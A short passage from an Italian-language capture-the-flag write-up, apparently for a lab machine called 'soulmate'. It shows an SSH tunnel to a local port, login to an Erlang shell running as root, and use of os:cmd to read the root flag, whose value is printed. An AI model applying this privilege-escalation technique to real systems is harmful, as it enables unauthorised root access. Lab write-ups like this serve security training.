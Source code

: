 ```bash
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -  

```

L'utente `ben` puo' accedere al servizio tramite **SSH**.

SSH Tunneling

```bash

$ ssh -L 2222:127.0.0.1:2222 ben@10.129.130.3

```

```bash

$ ssh -p 2222 ben@127.0.0.1
Eshell V15.2.5 (press Ctrl+G to abort, type help(). for help)                                                                                                                                             
(ssh_runner@soulmate)1> os:cmd("whoami").
"root\n"

```

```bash

(ssh_runner@soulmate)2> os:cmd("cat /root/root.txt").

"9f6949ffd8477ef35b9204d8f75cf1a8\n"


```

---

